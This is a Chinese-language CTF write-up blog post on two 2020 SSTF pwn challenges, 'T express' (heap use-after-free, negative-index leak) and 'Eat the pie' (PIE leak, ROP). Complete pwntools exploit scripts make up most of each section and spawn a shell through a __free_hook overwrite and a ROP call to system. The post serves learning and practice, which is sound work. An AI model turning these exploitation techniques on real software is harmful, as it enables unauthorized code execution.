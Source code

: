 ```yaml
---
layout:     post
title:      2020 ssctf(Hacker's Playground) wp
subtitle:   T-express, Eat-the-pie
date:       2020-08-19
author:     wxk1997
header-img: img/pwn-bg.png
catalog: true
tags:
    - ctf
    - pwn
    - writeup
---
```


# 前言

深刻地感受到自己变菜了. 两道非常简单的题目都没做出来. 一题是堆的uaf. 有个非常明显的整形溢出没有看到, 导致一直无法leak地址. 还有一题也是整形溢出可以, 需要在栈上构造rop链执行system("sh"), 也是卡住了. 太菜了 :(

# 正文

## T express

glibc 2.31. 保护全开. 有个 uaf 漏洞. 但是限制了只能malloc 7次. 通过另一个 off-by-one 漏洞可以实现 double free. 但是因为次数限制所以无法leak 地址. 卡了一会儿就去看别的题目了. 赛后学弟才在 show 功能中没有校验输入的索引是否为负数. 所以可以通过负的索引通过 stdout leak  lbic地址. 

```c
int index; // [rsp+Ch] [rbp-4h]

printf("Index of ticket: ");
index = read_l();
if ( index <= 6 && passes[index] ) {
    ...
}
```

没啥好说的, 就是菜. 不找借口. 

exp 如下:

```python
from pwn import *

filename = "./t_express"
ip = "t-express.sstf.site"
port = 1337

LOCAL = True if len(sys.argv)==1 else False

elf = ELF(filename)

remote_libc = "./libc.so.6"
if LOCAL:

    io = process(filename, env={'LD_PRELOAD': remote_libc}) 
    libc = ELF(remote_libc)
else:
    context.log_level = 'debug'
    io = remote(ip, port)
    libc = ELF(remote_libc)

def choice( idx):
    io.sendlineafter( "choice: ", str(idx))

def lg(name, val):
    log.info(name+" : "+hex(val))

def add( ticket_type, data1, data2):
    choice( 1)
    io.sendlineafter( " buy?\n", str(ticket_type))
    io.sendafter( "First name: ", data1)
    io.sendafter( "Last name: ", data2)

def show( idx):
    choice( 2)
    io.sendlineafter( "Index of ticket: ", str(idx))

def rm( idx, op=''):
    choice( 3)
    io.sendlineafter( "Index of ticket: ", str(idx))
    if op != '':
        io.sendlineafter( "1) meal 2) safari 3) gift 4) ride\n", op)

add( 1, '/bin/sh\n', 'a'*8)
add( 1, 'bb', 'aaa\n')
add( 1, 'bb', 'aaa\n')
add( 1, '/bin/sh\n', 'aaa\n')
rm( 2)

rm( 1)
rm( 0, '4')
rm( 1)

show( 1)
io.recvuntil( "|name |  ")
heap_addr = u64(io.recv( 6) + b'\0\0')
lg("heap_addr", heap_addr)

show( -8)
io.recvuntil( "|name |  ")
io.recv( 9)
libc_addr = u64(io.recv( 6) + b'\0\0')
lg("libc_addr", libc_addr)

libc.address = libc_addr - 0x1ec723

lg("libc base", libc.address)

fh = libc.symbols['__free_hook']
system = libc.symbols['system']

add( 1, p64(fh), '\n')
add( 1, p64(fh), '\n')
add( 1, p64(system), '\n')

rm( 3)

io.interactive()

```

## Eat the pie

32位程序, 开了pie. 栈上有函数指针, 因为输入结尾没有用 `\0` 截断所以是可以以leak 代码段地址的. 我tm又没看到. 这道不算什么. 问题是之后的构造过程也没构造出来. 思路太僵化了. 赛后看了一下别的队的题解, 就是先跳到 read 构造一个 rop chain 再通过 rop 执行 system("sh").

exp如下

```python
from pwn import *

# io = process("./eat_the_pie")
io = remote( "eat-the-pie.sstf.site" , 1337 )

io.sendlineafter("Select > ", "4"*15)
io.recvuntil("4"*15+'\n')
tmp = io.recv(4)
elf_base = u32(tmp) - 0x74d
print("elf base", hex(elf_base))

g1 = elf_base + 0x970
io.sendafter("Select > ", "-1 dabcdabcd"+p32(g1))

PebpR = elf_base + 0x00000a9b
system = elf_base + 0x5a0
sh_str = elf_base + 0x31a

payload = flat(system, 'aaaa', sh_str, 'aaaa', PebpR)

sleep(1)
io.sendline(payload)
```


# 结语

周日刚做出一道堆题就开始洋洋得意了, 结果这次连两道贼基础的题目都没做出来. 太菜了, 不要再飘飘然忘乎所以了, 老老实实刷题吧.


# 参考

1. [比赛平台](https://playground.sstf.site/challenges)
2. [参考题解](https://github.com/theori-io/ctf/blob/master/SSTF%20CTF%202020%20Write%20Up%20-%20The%20Duck.pdf)
3. [ctf-time](https://ctftime.org/event/1107)